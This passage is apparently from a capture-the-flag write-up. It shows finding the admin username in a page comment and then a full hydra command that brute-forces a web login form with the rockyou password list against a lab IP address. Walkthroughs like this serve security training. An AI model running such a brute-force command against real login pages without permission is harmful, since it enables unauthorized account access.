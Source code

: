 ![alt text](../brute_it/source.png)

From the comment line I found that the username is `admin` .

I only know the username but what is the password?

I used the `hydra` tool to brute force the login page and find the password. 

    hydra -l admin -P /home/rybnorbu/SecLists-master/Passwords/Leaked-Databases/rockyou.txt 10.10.210.224 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V 

![alt text](../brute_it/pass.png)
